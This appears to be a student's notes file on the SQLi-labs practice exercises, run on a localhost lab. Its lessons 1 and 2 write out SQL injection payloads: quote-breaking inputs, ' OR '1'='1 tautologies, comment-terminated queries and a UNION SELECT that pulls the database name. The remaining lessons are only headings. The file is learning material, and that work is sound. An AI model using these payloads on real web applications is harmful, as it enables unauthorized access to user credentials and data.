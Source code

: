 # sqli_labs
## lesson1
### Error-Based: Single Quotes,String
?id=1 or any other number gives the respective username and password, similar to the query: select * from TABLE where id=1;
In the url after trying some special cases, we find that odd number of single quotes breaks the query and also string input throwing error.
Error:  right syntax to use near ””) LIMIT 0,1′ at line 1.
?id=1′)–-+  : this gives us back the username and password. (here -- is used to comment out rest of the things).
Commonly used injections like ' OR '1'='1--
OR '1'='1' /*  in url after execution it would be like ?OR%20%271%27=%271%27%20/*
?id=-1' union select 1,2,database() --+
SELECT username,password from 'users' WHERE '?id'=0 OR 1=1; (here 1=1 is equivalent to true).
SELECT username,password from 'users' WHERE ?id=9 trying out different id no.s we get the desired output when id is 9.

## lesson2
### Error-Based: IntegerBased
when we give ?id=1- we see the error as right syntax to use near'LIMIT 0,1' at line 1 (query broke)
error that extra " and 'quotes are present which means that the input is enclosed in them.
Select * from TABLE where id = 1’ ;
so there is use of integer for the query
Select * from TABLE where id = (some integer value);
if we comment out the id number as (-- is used to comment out the input): http://localhost/sqli-labs/Less-2/?id=1 -- 
we receive the username and password.

## lesson3
### Lesson 3: Error-based single quotes with twist – string

## lesson4
### Lesson 4: Error-based double quotes string

## lesson5
### Lesson 5:Fixing the query without using comments
